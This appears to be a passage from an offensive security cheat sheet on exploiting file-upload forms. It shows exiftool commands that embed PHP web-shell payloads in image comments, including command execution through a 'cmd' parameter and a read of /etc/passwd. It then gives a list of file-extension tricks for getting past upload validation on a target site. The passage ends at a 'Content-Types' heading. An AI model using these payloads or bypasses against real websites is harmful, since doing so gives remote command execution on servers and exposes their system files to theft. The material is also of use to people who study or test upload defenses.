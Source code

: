 It's assumed that you have an arbitrary image file.

```sh
exiftool -Comment="<?php system('ls'); ?>" example.png
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Bypass Upload Validation

Upload the exploit files in the target website e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

### File Extensions

If you cannot upload the payload with ".php", modify the extension and try it.

```txt
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.phar

exploit.jpg.php
exploit.jpeg.php
exploit.png.php
exploit.gif.php
exploit.pdf.php

exploit.php.
exploit.php.jpg
exploit.php.jpeg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg

exploit.pHp

exploit.php/
exploit.php//
exploit.php\
exploit.php#
exploit..php
```

### Content-Types
